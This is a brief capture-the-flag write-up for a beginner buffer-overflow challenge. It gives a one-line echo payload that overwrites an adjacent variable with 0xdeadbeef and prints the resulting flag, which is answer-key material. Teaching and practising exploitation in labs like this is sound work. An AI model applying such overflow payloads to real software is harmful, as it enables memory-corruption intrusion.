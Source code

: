 # baby b0f

> It's a b0f , Can't be easier than that.
>
> Service : nc 68.183.158.95 8989
>
> [q1](q1)

Overflow the target buffer and overwrite the adjacent variable with `0xdeadbeef` to pass the check to get the flag.

	$ echo -e "AAAAAAAAAA\xef\xbe\xad\xde" | ./q1

flag: `d4rk{W3lc0me_t0_th3_w0rld_0f_pwn}c0de`